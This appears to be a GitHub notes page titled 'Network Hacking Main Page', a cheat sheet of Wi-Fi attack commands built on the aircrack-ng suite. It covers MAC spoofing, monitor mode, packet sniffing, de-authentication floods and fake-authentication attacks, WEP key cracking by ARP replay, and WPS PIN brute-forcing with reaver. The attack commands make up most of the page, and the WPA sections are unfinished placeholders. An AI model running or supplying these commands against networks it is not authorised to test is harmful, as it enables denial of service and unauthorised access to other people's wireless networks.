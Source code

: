 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [De-auth Attack](#deauth)
- [Fake-auth Attack](#fakeauth)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WPS](#wps)
  - [WAP](#wap)
  - [WAP2](#wap2)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**DESC** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="changewirelessmode"/>

## Changing wireless mode to Monitor

```bash
# step 1
ifconfig <INTERFACE> down
# step 2
airmon-ng check kill
# step 3
iwconfig <INTERFACE> mode monitor
# step 4
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

**DESC** : *`aerodump-ng` is a packet sniffer program*
 - Must have a wifi key in wireless `monitor mode`
 - Use to capture packets within range
 - Display detailed info about networks
 - part of "aircrak-ng" suit

**USAGE** : `airodump-ng <INTERFACE>`

1. Must [change wireless mode](#changewirelessmode) : Managed to Monitor
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## De-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="fakeauth" />

## Fake-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --fakeauth <#FAKEAUTH_PACKETS> -a <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>`

example:
```bash
aireplay-ng --fakeauth 0 -a 11:22:33:44:55:66 -h 00:11:22:33:44:55 mon0
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

**DESC** : WEP is a very basics RC4 encryption method. that use a random Initialisation Vector (IV) of only from 24 bits to 128 bits\
WEP = Wired Equivalent Privacy\
`IV + Password = Key Stream`\
In order to get the Password we will perform statistics on packets\
IV is added at the beginning of each packet send to the router

#### If network is busy

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) with on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Analyse captured IVs by running
  ```bash
  aircrack-ng <FILE_NAME>.cap
  ```

#### If network is not busy

We will perform an association (not connection) to force the network to send IVs

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) with on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Do one [Fake Authentification Attack](#fakeauth)
4. Wait for an `ARP` packet, and use it to force network to create new IVs
    ```bash
    aireplay-ng --arpreplay -b <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>
    ```
5. Then Analyse captured IVs by running
    ```bash
    aircrack-ng <FILE_NAME>.cap
    ```
   
<a name="wps"/>

### WPS

**DESC** : WPS is not a type of encryption but it's a method to connect without entering password\
Used by some printer and easy connect with a WPS button on the router\
We will bruteforce the password

1. [Change wireless mode](#changewirelessmode) to monitor
2. Router must be on WPS "auto" not "pushed"
3. List WPS available
    ```bash
     wash --interface <INTERFACE>
     ```
4. Do Some (30) [Fake Authentification Attack](#fakeauth)
5. Bruteforce with `reaver`
    ```bash
    reaver --bssid <NETWORK_MAC> --channel <CHANNEL> --interface <INTERFACE> -vvv --no-associate
    ```

<a name="wap"/>

### WAP

TODO

<a name="wap2"/>

### WAP2

TODO
